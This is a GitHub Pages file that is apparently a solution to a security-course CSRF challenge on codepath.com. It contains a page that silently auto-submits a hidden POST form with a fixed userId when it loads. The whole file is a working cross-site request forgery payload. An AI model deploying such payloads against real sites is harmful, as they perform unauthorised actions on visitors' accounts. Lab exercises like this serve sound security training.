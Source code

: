 # JLPlummer79.github.io
<html>
  <body onload="document.csrfform.submit()">
    <form name="csrfform" action="http://security.codepath.com/user/csrfchallengtwo/plusplus/" method="POST">
      <input type="hidden" name="userId" value="aeb865d01bf2879d30580dc941c066a504be46e4"/>
      <input type="submit"/>
    </form>
    <iframe name="hidden_results" style="display: none;">  </iframe>
  </body>
</html>
